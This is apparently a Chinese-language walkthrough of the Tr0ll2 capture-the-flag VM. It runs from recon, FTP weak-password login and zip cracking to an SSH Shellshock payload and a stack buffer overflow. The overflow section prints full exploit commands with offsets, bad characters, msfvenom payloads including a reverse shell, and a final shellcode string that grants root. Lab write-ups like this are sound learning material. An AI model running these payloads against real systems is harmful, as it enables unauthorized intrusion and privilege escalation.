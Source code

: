 ## 信息收集

```````
sudo arp-scan -l 扫描开放的新主机
```````

[利用自己编写的简易脚本(只是简化了操作步骤)扫描目标靶机](https://github.com/defu0117/CODE/blob/main/shell/scan_simple.sh)

```
输出到的ports开放端口21,22,80
detail 输出了80web端存在robots.txt
ftp 没有显示能匿名登录
```



## FTP渗透

- 首先还是尝试了一下能不能匿名登录，发现不能
- 这时候思路转到web，访问页面是一个图片，dump下来也没有发现有用信息
- 页面源码显示作者是:Tr0ll,看看能不能弱密码登录ftp，尝试成功，下载lmao.zip



### WEB渗透

- robots.txt显示内容:

  ```
  User-agent:*
  Disallow:
  /noob
  /nope
  /try_harder
  /keep_trying
  /isnt_this_annoying
  /nothing_here
  /404
  /LOL_at_the_last_one
  /trolling_is_fun
  /zomg_is_this_it
  /you_found_me
  /I_know_this_sucks
  /You_could_give_up
  /dont_bother
  /will_it_ever_end
  /I_hope_you_scripted_this
  /ok_this_is_it
  /stop_whining
  /why_are_you_still_looking
  /just_quit
  /seriously_stop
  ```

  提示我们也是要不要写个脚本访问，咱毕竟也是个懒人，不可能挨个访问的

  **script:**

  ```bash
  #!/bin/bash
  
  while read line
  do
          ur="http://192.168.1.93${line}"
          echo `curl -L -s ${ur}` && echo "${line}" 
  done < url
  ```

  

  ```shell
  bash sh | grep -v "404" 输出了四个文件有显示，但都是图片，我开始没有挨个看，血亏啊，转了半天发现没有思路，结果发现在/dont_bother/下的图片源码显示了新的路径
  
  Look Deep within y0ur_self for the answer
  /y0ur_self/answer.txt 下是base64 encode的密码本
  base64 -d answer.txt > passwd
  
  使用fcracekzip 破解zip文件
  fcrackzip -D -p passwd -u lmao.zip
  -D 使用暴力破解模式
  -p指定密码路径
  -u指定文件路径
  
  PASSWORD FOUND!!!!: pw == ItCantReallyBeThisEasyRightLOL
  
  ```



## 提权

- zip解压得到一个私钥文件

- 将权限改为600,但是不知道用户名称是什么，我尝试直接使用加压出来的文件名，因为在之前也出现过noob

- ```shell
  ssh -i noob@192.168.1.93
  
  TRY HARDER LOL!
  Connection to 192.168.1.93 closed.
  
  这里我不知道怎么做了，没有思路，于是看了大佬的wp发现是shellshock
  
  ssh -i noob@192.168.1.93 -i noob -t '() { :;}; /bin/bash'
  -t  远程登录后执行的内容
  这里好像是有个源文件会将检查到的(){ 认为是函数，倘若该环境变量字符串包含多个用分号；隔开的shell命令，parse_and_execute函数会执行每一条命令，具体我也不太清楚
  ```

  - 登录到系统发现系统其他用户，除了noob还有一个，home下目录有可读权限但是没什么信息

  - `find / -perm -u=s -type f 2>/dev/null | grep -v "proc"`

    /nothing_to_see_here/choose_wisely/door2/r00t
    /nothing_to_see_here/choose_wisely/door3/r00t
    /nothing_to_see_here/choose_wisely/door1/r00t

  - 发现有可读可执行权限，三个文件会互相改换位置，一个可以输入靶机名称，一个重启，一个说开启两分钟困难模式，不能使用ls了



### 缓冲区溢出提权

- 在可输入的可执行文件查看源码，首先strings我们没有权限使用了
- 我们使用od -S 1 r001     | -S 1 查看可打印字符
- 发现展示了之前在.bash_history出现过的bof.c还有strcpy

​	` char *strcpy(char *dest, const char *src) 把src所指向的字符串复制到dest，如果dest不够大容易造成缓冲区溢出漏洞`

系统还有gdb和windows的Immunity Debugger一样可以调试文件

```
r(run) 运行知道中断了后面跟一个参数

1.模糊测试看多少发生溢出:
r $(python -c 'print (A"*500'))   最后发现在200没有溢出，300溢出了

2.具体测试出在多少位溢出
用msf的生成出300位测试码
msf-pattern_create -l 300

r $(python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9"')

:Program received signal SIGSEGV, Segmentation fault.
0x6a413969 in ?? ()

msf-pattern_offset -l 300 -q 0x6a413969
[*] Exact match at offset 268


3.那么第269位就是溢出的，我们看看后面的内容在哪个地方
r $(python -c 'print "A"*268 + "B"*4 + "C"*8')
Starting program: /nothing_to_see_here/choose_wisely/door2/r00t $(python -c 'print "A"*268 + "B"*4 + "C"*8')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) i r
eax            0x118    280
ecx            0x0      0
edx            0x0      0
ebx            0xb7fd1ff4       -1208147980
esp            0xbffffb60       0xbffffb60
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0x42424242       0x42424242
eflags         0x210282 [ SF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51

0xbffffb60 的内容就是CCCC可以使用查看内容
x/100xb 0xbffffb60
0xbffffb60:     0x43    0x43    0x43    0x43    0x43    0x43    0x43    0x43


4.查看坏字符，用github的开源程序生成一个码./badchars ，/x01~/xff
输入，如果x/100xb 0xbffffb60后面的内容挨个对不上就在此位置出现坏字符，剔除然后重新运行     最后得到的坏字符位/x09,/x0a,/x20以及/x00

5.生成payload
msvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.93 LPORT=4444 -b '\x00\x0a\x0d' -f py 但是没有运行成功 最开始还使用了-e x86/shikata_ga_nai

msfvenom --platform linux -p linux/x86/exec -f py CMD="/bin/sh" -b '\x00\x0a\x0d' -a x86

最后输入:
./r00t $(python -c "print 'A' * 268 + '\x80\xfb\xff\xbf' + '\x90' * 100 + '\xd9\xee\xd9\x74\x24\xf4\x5f\xba\x2e\x56\xb2\x8d\x33\xc9\xb1\x0b\x31\x57\x1a\x03\x57\x1a\x83\xc7\x04\xe2\xdb\x3c\xb9\xd5\xba\x93\xdb\x8d\x91\x70\xad\xa9\x81\x59\xde\x5d\x51\xce\x0f\xfc\x38\x60\xd9\xe3\xe8\x94\xd1\xe3\x0c\x65\xcd\x81\x65\x0b\x3e\x35\x1d\xd3\x17\xea\x54\x32\x5a\x8c'")
提权成功

/x90 *100 是nop sled 位,nop滑动，给出更大的空间去提高容错率，因为有的shellcode会先生成一段加载的代码，防止覆盖
```




